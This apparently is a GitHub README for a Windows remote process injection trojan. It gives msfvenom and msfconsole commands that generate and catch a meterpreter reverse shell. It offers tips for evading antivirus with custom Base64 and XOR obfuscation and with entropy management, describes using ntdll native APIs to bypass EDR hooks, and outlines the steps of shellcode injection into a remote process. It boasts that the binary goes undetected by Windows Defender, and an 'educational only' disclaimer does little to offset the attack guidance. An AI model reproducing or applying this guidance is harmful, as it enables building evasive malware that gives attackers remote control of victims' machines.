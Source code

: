 # Native API Remote Process injection Trojan

Remote process injection trojan using Native Api stubs (dynamically resolved) and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
This malware uses dynamically resolved function pointers from ntdll.dll to reduce static IAT footprint, it retrieves addresses of native api functions at runtime and uses them to decrypt and upload shellcode into a target process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more, secondly XOR encryption is applied using a single-byte key, and finally we convert it into its hexadecimal string representation. You can find the ebcrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) Native Api:
We get a handle to ntdll and we export its functions, these are the lowest level Win API calls exposed to the user mode, and are the closest interface to the Windows kernel, below them there are just system calls which i will include in the future. Unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom type def structs for each function, and we define all the internal structures and objects that they need, sometimes structures will require even more internal objects n stuff.

- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```.

### 2.2) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we get a handle for the target process, we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable;
- It creates a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection
The raw exe file is currently undetected by windows defender, gets 9 detections

<img align="right" src="media/hsav2.png" width="430" />
